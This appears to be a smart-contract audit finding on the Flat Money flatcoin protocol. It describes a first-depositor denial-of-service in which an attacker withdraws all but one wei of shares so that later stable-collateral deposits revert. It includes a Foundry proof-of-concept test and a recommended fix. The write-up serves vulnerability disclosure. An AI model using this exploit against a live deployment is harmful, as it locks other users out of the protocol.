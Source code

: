 Blurry Raisin Yak

high

# First Depositor of Stable Collateral will cause a System-Wide Denial of Service

## Summary

The initial depositor of stable collateral can trigger a system-wide denial of service (DoS). This can be done by depositing a significant amount of rETH and subsequently withdrawing the entire amount minus a single wei, exploiting the system's liquidity requirements.

## Vulnerability Detail

The protocol mandates a check during the rETH deposit process as stable collateral, ensuring the aggregate total shares exceed 10,000. This safeguard is designed to prevent any single user from creating merely one wei of shares, thereby averting an inflationary exploit. Nevertheless, this protective measure can be manipulated by a malicious attacker to trigger a systemic DoS.

The protocol performs this verification upon stable collateral deposit:

```solidity
if (totalSupply() < MIN_LIQUIDITY)
    revert FlatcoinErrors.AmountTooSmall({amount: totalSupply(), minAmount: MIN_LIQUIDITY});
```

However, this stipulation is not reiterated during the withdrawal of stable collateral, enabling an adversary to initially mint sufficient shares to satisfy this criterion and later extract the entire sum except for one wei, leaving a solitary wei of shares in the stable module.

In scenarios where a withdrawal incurs a fee, said fee augments the `stableCollateralTotal` within the Flatcoin vault. Post-withdrawal, the aggressor effectively strands the system with one wei of shares alongside a significant volume of stable collateral, courtesy of the withdrawal fee.

This disparity between shares and collateral obstructs further deposits of stable collateral due to the newly minted shares failing to meet the `MIN_LIQUIDITY` threshold mentioned before.

## Impact

An initial depositor of stable collateral is capable of triggering a protocol-wide DoS, effectively barring additional stable collateral deposits and thus compromising the entire protocol's functionality.

## Proof of Concept

The following test can be pasted in `Withdraw.t.sol` and be run with the following command: `forge test --match-test test_inflation_attack`.

Before executing the test, make sure to have this line on top of the file in order for the test to work:

```solidity
import {FlatcoinErrors} from "../../../src/libraries/FlatcoinErrors.sol";
```

```solidity
function test_inflation_attack() public {
    // Set withdraw fee on stable module to 1%
    vm.prank(admin);
    stableModProxy.setStableWithdrawFee(0.01e18);

    vm.startPrank(alice);
    uint256 stableDeposit = 100e18;

    // Alice deposits 100 rETH into the vault
    announceAndExecuteDeposit({
        traderAccount: alice,
        keeperAccount: keeper,
        depositAmount: stableDeposit,
        oraclePrice: 1000e8,
        keeperFeeAmount: 0
    });
    // Alice withdraws everything expect 1 wei
    announceAndExecuteWithdraw({
        traderAccount: alice,
        keeperAccount: keeper,
        withdrawAmount: stableDeposit - 1,
        oraclePrice: 1000e8,
        keeperFeeAmount: 0
    });

    // Now, because of the withdrawal fee of 1%, the total stable collateral is 1 rETH and the total shares are 1 wei
    assertEq(vaultProxy.stableCollateralTotal(), 1e18);
    assertEq(stableModProxy.totalSupply(), 1);

    // Now, Bob cannot deposit into vault because the minimum shares required are 10_000
    // To mint 10_000 shares, Bob needs to deposit at least 10_000 rETH
    // Even if Bob is kind of crazy and deposits 9_900 rETH, he will only get 9_900 shares, making the transaction revert
    announceStableDeposit(bob, 9_900e18, mockKeeperFee.getKeeperFee());
    skip(uint256(vaultProxy.minExecutabilityAge())); // must reach minimum executability time

    bytes[] memory priceUpdateData = getPriceUpdateData(1000e8);

    vm.expectRevert(abi.encodeWithSelector(FlatcoinErrors.AmountTooSmall.selector, 9901, 10_000));
    delayedOrderProxy.executeOrder{value: 1}(bob, priceUpdateData);
}
```

## Code Snippet

https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/StableModule.sol#L79-L80

## Tool used

Manual Review

## Recommendation

To address this vulnerability, it is advisable to incorporate the minimum liquidity verification within the `executeWithdraw()` function of the stable module:

```diff
    
    // ...
    
    if (totalSupply() > 0) {
        if (
            stableCollateralPerShareAfter < stableCollateralPerShareBefore - 1e6 ||
            stableCollateralPerShareAfter > stableCollateralPerShareBefore + 1e6
        ) revert FlatcoinErrors.PriceImpactDuringWithdraw();

        // Apply the withdraw fee if it's not the final withdrawal.
        _withdrawFee = (stableWithdrawFee * _amountOut) / 1e18;
        
+       if (totalSupply() < MIN_LIQUIDITY)
+           revert FlatcoinErrors.AmountTooSmall({amount: totalSupply(), minAmount: MIN_LIQUIDITY});

        // additionalSkew = 0 because withdrawal was already processed above.
        vault.checkSkewMax({additionalSkew: 0});
    } else {
    
    // ...
    
```
